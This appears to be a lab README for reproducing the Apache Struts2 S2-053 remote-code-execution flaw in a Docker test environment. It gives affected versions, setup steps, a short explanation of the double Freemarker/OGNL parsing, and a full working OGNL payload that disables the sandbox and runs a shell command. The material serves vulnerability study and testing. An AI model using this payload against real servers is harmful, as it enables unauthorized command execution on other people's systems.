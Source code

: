 # S2-053 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

Details:

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## Setup

```
docker-compose up -d
```

After the environment run, you can see a submission page by visiting `http://your-ip:8080/hello.action`.

## Exploit

Struts2 allows parsing OGNL expressions when using the Freemarker template engine. The data is not parsed by OGNL itself, but after being parsed once by Freemarker. It becomes an expression and is parsed by OGNL second time.And remote code execution vulnerablity.

Payload:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![](01.png)

PS: Someone said that they could not reproduce the vulnerability. After my test, I found that the **line break** at the end of the above Payload could not be dropped (that is, the payload must be followed by a newline).
